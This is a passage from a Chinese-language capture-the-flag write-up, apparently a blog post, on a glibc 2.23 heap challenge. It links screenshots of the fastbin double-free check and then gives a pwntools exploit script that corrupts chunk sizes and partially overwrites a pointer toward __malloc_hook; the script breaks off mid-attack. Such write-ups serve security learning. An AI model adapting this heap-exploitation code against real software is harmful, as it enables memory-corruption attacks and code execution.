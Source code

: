    ![image-20240819181243445](https://gitee.com/poppy-qwq/cloudimage/raw/master/img1/202408191812559.png)

5. **fastbin检查double free**，进而调用malloc_printerr函数报错的源码：

   ![image-20240819180001842](https://gitee.com/poppy-qwq/cloudimage/raw/master/img1/202408191800895.png)

   ![image-20240819175942571](https://gitee.com/poppy-qwq/cloudimage/raw/master/img1/202408191759637.png)

6. 完整EXP：

   ```py
   from pwn import *
   import numpy as np
   # from LibcSearcher import *
   context(os='linux', arch='amd64', log_level='debug')
   
   
   
   def debug():
       gdb.attach(p)
   
   def add(size,index):
       p.sendlineafter(b'ee',b'1')
       p.sendlineafter(b':',str(size).encode())
       p.sendlineafter(b':',str(index).encode())
       # p.sendafter(b"?",name)
   
   def edit(index,content):
       p.sendlineafter(b'ee',b'2')
       p.sendlineafter(b':',str(index).encode())
       # p.sendlineafter(b":",str(len(content)).encode())
       p.sendafter(b":",content)
   
   # def show():
   #     p.sendlineafter(b':',b'3')
   
   def free(index):
       p.sendlineafter(b'ee',b'3')
       p.sendlineafter(b':',str(index).encode())
   
   # p = remote("node4.anna.nssctf.cn",28864)
   # libc = ELF('./libc.so.6')
   p = process("./new_chall") 
   libc = ELF("/home/kali/Desktop/glibc-all-in-one/libs/2.23-0ubuntu11.3_amd64/libc-2.23.so")
   # elf = ELF("./pwn")
   
   # unsorted bin ==> malloc_hook ==> unsorted bin attack
   p.sendline(b"lzl")
   add(0x18,0)
   add(0x58,1)
   add(0x68,2)
   add(0x100,9)
   add(0x18,6)
   
   # malloc malloc_hook
   edit(0,p64(0)*3+b"\x91")
   edit(2,p64(0)*5 + p64(0x11) + p64(0) + p64(1))
   free(1)
   free(2)
   
   add(0x58,3)
   edit(3,p64(0)*11 + b"\x71")
   edit(2,b"\xed\x4a")
   add(0x68,4)
   ```